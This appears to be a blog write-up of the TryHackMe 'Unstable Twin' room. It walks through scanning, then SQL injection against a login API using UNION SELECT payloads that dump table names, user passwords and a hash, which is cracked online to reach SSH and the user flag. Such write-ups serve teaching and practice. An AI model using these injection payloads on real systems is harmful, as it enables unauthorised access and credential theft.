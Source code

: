 ```yaml
---
layout: post
title:  "Tryhackme - Unstable Twin"
date:   2021-05-20 17:06:25
categories: Pentesting
---
```


Prompt:https://tryhackme.com/room/unstabletwin

# Solution

Starting with the usual Nmap scan, we discover that only 2 ports are open.

```py
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey:
|   3072 ba:a2:40:8e:de:c3:7b:c7:f7:b3:7e:0c:1e:ec:9f:b8 (RSA)
|   256 38:28:4c:e1:4a:75:3d:0d:e7:e4:85:64:38:2a:8e:c7 (ECDSA)
|_  256 1a:33:a0:ed:83:ba:09:a5:62:a7:df:ab:2f:ee:d0:99 (ED25519)
80/tcp open  http    nginx 1.14.1
|_http-server-header: nginx/1.14.1

```
On running the gobuster scan we get 2 directories /api (with status 404) and /info (with status 200) which tells us that the login API needs to be called with username and password on visiting /info .

To get the build version we send a request to /info 

```py
curl -i -s http://10.10.196.16/info
```
However it returned 1.3.6-final (which did not turn out to be the correct answer),so I thought it is some machine error and so I sent the request again and (much to my bewilderment) got a different build version.

```
1.3.4-dev
```
After this I sent a request to the login API with an arbitrary username and password as directed in /info and got the result that the credentials are incorrect

```py
curl -XPOST 'http://10.10.196.16/api/login' -d 'username=admin&password=admin'
"The username or password passed are not correct."
```
The box has an SQLi tag so i decided to try exploiting it in that direction and tried to list our the table names in the sqlite_master database. 
Basically sqlite_master is the master listing of all database objects in the database and the SQL used to create each object. 
The sqlite_master contains the following columns:

```
The sqlite_master table contains the following columns:

Column         Description
type	            The type of database object such as table, index, trigger or view.
name	      The name of the database object.
tbl_name	      The table name that the database object is associated with.
rootpage	      Root page.
sql	              SQL used to create the database object.

```
So I basically have to display the information stored in tbl_name column.
Here's my request:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,group_concat(tbl_name) from sqlite_master where type='table' -- -&password=admin"



[
  [
    1, 
    "users,sqlite_sequence,notes"
  ]
]

```
Now sqlite_sequence is one of the default tables present in SQL ,so it is not probably not important right now.
So I list out the data in the **users** table :

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1' UNION SELECT username,password from users -- -&password=admin"


[
  [
    "julias", 
    "Red"
  ], 
  [
    "linda", 
    "Green"
  ], 
  [
    "marnie", 
    "Yellow "
  ], 
  [
    "mary_ann", 
    "continue..."
  ], 
  [
    "vincent", 
    "Orange"
  ]
]

```

But Mary Anns' password is not listed here so i proceed to similarly list the information in the **notes** table:

```py
curl -XPOST 'http://10.10.196.16/api/login' -d "username=1'UNION SELECT 1,notes from notes -- - -- -&password=admin"



[
  [
    1, 
    "I have left my notes on the server.  They will me help get the family back together. "
  ], 
  [
    1, 
    "My Password is eaf0651dabef9c7de8a70843030924d335a2a8ff5fd1b13c4cb099e66efe25ecaa607c4b7dd99c43b0c01af669c90fd6a14933422cf984324f645b84427343f4\n"
  ]
]

```
Seems like a hash,right? So I proceed to crack the hash online using [Crackstation](https://crackstation.net/) and get the SSH password.

```
Experiment
```
After this I log in via SSH and retieve the User Flag.

***User Flag : THM{Mary_Ann_notes}***
